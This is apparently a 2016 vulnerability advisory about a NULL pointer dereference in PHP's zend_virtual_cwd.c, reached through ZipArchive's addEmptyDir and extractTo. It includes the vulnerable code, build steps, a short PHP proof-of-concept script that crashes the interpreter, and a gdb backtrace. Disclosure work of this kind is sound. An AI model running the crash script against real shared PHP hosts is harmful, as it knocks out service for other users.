 ```yaml
---
title: "PHP NULL pointer dereference in virtual_file_ex (v. master-Git-2016-02-09)
date: 2016-02-09 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-02-09
* _Release date_: 2016-02-09
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=71561

A malicious user could create an evil php script in order to crash the PHP interpreter. The issue could compromise the availability of the PHP interpreter in the web hosting services, where the PHP interpreter could be shared among some users.

`virtual_file_ex` method in the `zend_virtual_cwd.c` file uses a `char *` argument that could be NULL. I identified this issue through `extractTo` method in the PHP Zip extension, opening a not existing ZIP archive.

`zend_virtual_cwd.c`:

```c
CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath) /* {{{ */
{
    // path could be NULL
    int path_length = (int)strlen(path);
```

The issue is triggerable via `addEmptyDir` and `extractTo` Zip extension methods, if not existing zip archive will be opened.
Vulnerable code into extractTo method (`php_zip.c`) is shown below:

```c
/* Extract all files */
// zip_get_num_files returns 1 (intern->nentry is equal to 1) because, I think, addEmptyDir incremented it.
int filecount = zip_get_num_files(intern);

if (filecount == -1) {
    // ...
}

for (i = 0; i < filecount; i++) {

    // zip_get_name returns NULL
    char *file = (char*)zip_get_name(intern, i, ZIP_FL_UNCHANGED);

    // php_zip_extract_file uses virtual_file_ex
    if (!php_zip_extract_file(intern, pathto, file, strlen(file))) {
        RETURN_FALSE;
    }
}
```

# PHP build command

```
./buildconf --force
./configure --prefix=/opt/php --enable-debug --enable-zip
make && make install
```

# Test script

```
<?php

$zip = new ZipArchive();

// Open a not existing zip file
$zip->open("/dev/shm/notexisting.zip", ZIPARCHIVE::CREATE);

$zip->addEmptyDir("foo");

// Program terminated with signal SIGSEGV, Segmentation fault.
$zip->extractTo("/dev/shm/");

$zip->close();

?>
```

# Expected result

PHP interpreter should not crash.
No actions could be performed by `extractTo` method because the zip file does not physically exist, or the "in-memory" zip archive could be handled as a normal archive (if possible).

# Actual result

PHP interpreter crash with a SIGSEGV.

```
$ gdb) where
#0  strlen () at ../sysdeps/x86_64/strlen.S:106
#1  0x000000000079055a in c_ziparchive_extractTo (execute_data=0x7f3656a15120, return_value=0x7f3656a15100) at /php-src/master/src/ext/zip/php_zip.c:2671
#2  0x0000000000891c3a in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/master/src/Zend/zend_vm_execute.h:1024
#3  0x0000000000890610 in execute_ex (ex=0x7f3656a15030) at /php-src/master/src/Zend/zend_vm_execute.h:422
#4  0x0000000000890721 in zend_execute (op_array=0x7f3656a82000, return_value=0x0) at /php-src/master/src/Zend/zend_vm_execute.h:466
#5  0x00000000008362e8 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /php-src/master/src/Zend/zend.c:1427
#6  0x00000000007a76ae in php_execute_script (primary_file=0x7ffd6efe8db0) at /php-src/master/src/main/main.c:2484
#7  0x0000000000908079 in do_cli (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:974
#8  0x0000000000909043 in main (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:1345
```

# Notes

* 2016-02-09: Vendor notification.
* 2016-02-09: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.